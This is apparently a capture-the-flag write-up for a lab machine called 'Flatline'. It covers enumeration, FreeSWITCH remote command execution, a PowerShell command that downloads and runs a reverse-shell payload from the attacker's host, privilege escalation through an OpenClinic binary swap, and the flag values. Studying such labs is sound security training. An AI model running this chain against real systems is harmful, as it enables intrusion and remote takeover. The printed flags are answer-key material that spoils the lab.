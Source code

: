 ## Flatline


1. Enumerate with nmap. We see that port 3389 is open and is running the service `ms-wbt-server`, which is RDP. We also see that port 8021 has Freeswitch running
```
$ sudo nmap -Pn -sS -A 10.10.122.186
Starting Nmap 7.92 ( https://nmap.org ) at 2022-03-07 13:42 EST
Nmap scan report for 10.10.122.186
Host is up (0.22s latency).
Not shown: 998 filtered tcp ports (no-response)
PORT     STATE SERVICE          VERSION
3389/tcp open  ms-wbt-server    Microsoft Terminal Services
| ssl-cert: Subject: commonName=WIN-EOM4PK0578N
| Not valid before: 2021-11-08T16:47:35
|_Not valid after:  2022-05-10T16:47:35
|_ssl-date: 2022-03-07T18:42:40+00:00; 0s from scanner time.
| rdp-ntlm-info: 
|   Target_Name: WIN-EOM4PK0578N
|   NetBIOS_Domain_Name: WIN-EOM4PK0578N
|   NetBIOS_Computer_Name: WIN-EOM4PK0578N
|   DNS_Domain_Name: WIN-EOM4PK0578N
|   DNS_Computer_Name: WIN-EOM4PK0578N
|   Product_Version: 10.0.17763
|_  System_Time: 2022-03-07T18:42:39+00:00
8021/tcp open  freeswitch-event FreeSWITCH mod_event_socket
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: specialized
Running (JUST GUESSING): AVtech embedded (87%)
Aggressive OS guesses: AVtech Room Alert 26W environmental monitor (87%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 4 hops
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

TRACEROUTE (using port 3389/tcp)
HOP RTT       ADDRESS
1   89.27 ms  10.13.0.1
2   ... 3
4   236.73 ms 10.10.122.186

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 34.21 seconds
```

2. Use metasploit's `scanner/rdp/rdp_scanner` module to scan the machine for any RDP vulnerabilities. We see that it requires [NLA (Network Level Authentication)](https://docs.microsoft.com/en-us/windows-server/remote/remote-desktop-services/clients/remote-desktop-allow-access), so there's not much we can do with RDP
```
msf6 auxiliary(scanner/rdp/rdp_scanner) > exploit

[*] 10.10.122.186:3389    - Detected RDP on 10.10.122.186:3389    (name:WIN-EOM4PK0578N) (domain:WIN-EOM4PK0578N) (domain_fqdn:WIN-EOM4PK0578N) (server_fqdn:WIN-EOM4PK0578N) (os_version:10.0.17763) (Requires NLA: Yes)
[*] 10.10.122.186:3389    - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

3. Search for any freeswitch vulnerabilities to find this [python script](https://www.exploit-db.com/exploits/47799). Run it with `python3 <script name> <ip address> <command>` and we see that it works.
```
$ python3 freeswitch_rce.py 10.10.122.186 whoami
Authenticated
Content-Type: api/response
Content-Length: 25

win-eom4pk0578n\nekrotic
```

4. Create a payload with msfvenom `msfvenom -p windows/shell_reverse_tcp LHOST=<attacker ip address> LPORT=4444 -f exe > payload1.exe`. Then create an http server to serve the payload `python3 -m http.server`. Set up a netcat listener with `nc -nvlp 4444`. Finally, download and invoke the payload on the target machine with `python3 freeswitch_rce.py <target ip address> "powershell.exe Invoke-WebRequest -Uri http://<attacker ip address>:8000 -OutFile ./payload1.exe && .\payload1.exe"`

5. After getting the shell, look around and find both user.txt and root.txt in `C:\Users\Nekrotic\Desktop`. Using `more user.txt` gives us `THM{64bca0843d535fa73eecdc59d27cbe26}`. We can't view root.txt because we have insufficient permissions.

6. After doing some more enumeration we get to `C:\Users\Administrator\Desktop` and find two files. OpenClinic seems to be another piece of software that is installed on the pc. After doing some digging we find that OpenClinic has a [vulnerability](https://www.exploit-db.com/exploits/50448) that lets us escalate our privileges. 
```
09/11/2021  07:18    <DIR>          .
09/11/2021  07:18    <DIR>          ..
08/11/2021  18:24       108,048,384 FreeSWITCH-1.10.1-Release-x64.msi
08/11/2021  06:05       413,584,335 OpenClinicSetup5.194.18_32bit_full_fr_en_pt_es_nl.exe
               2 File(s)    521,632,719 bytes
               2 Dir(s)  50,541,469,696 bytes free
```

7. Follow the guide precisely: rename the original mysqld.exe binary, create your own reverse shell binary (make sure to use a port that isn't already being used), server it to the target machine with the http server, rename it to mysqld.exe, start a listener on the port with netcat, and then restart the target machine with `shutdown /r /t 1`

8. Once we get a shell, print out the root.txt file to get `THM{8c8bc5558f0f3f8060d00ca231a9fb5e}`
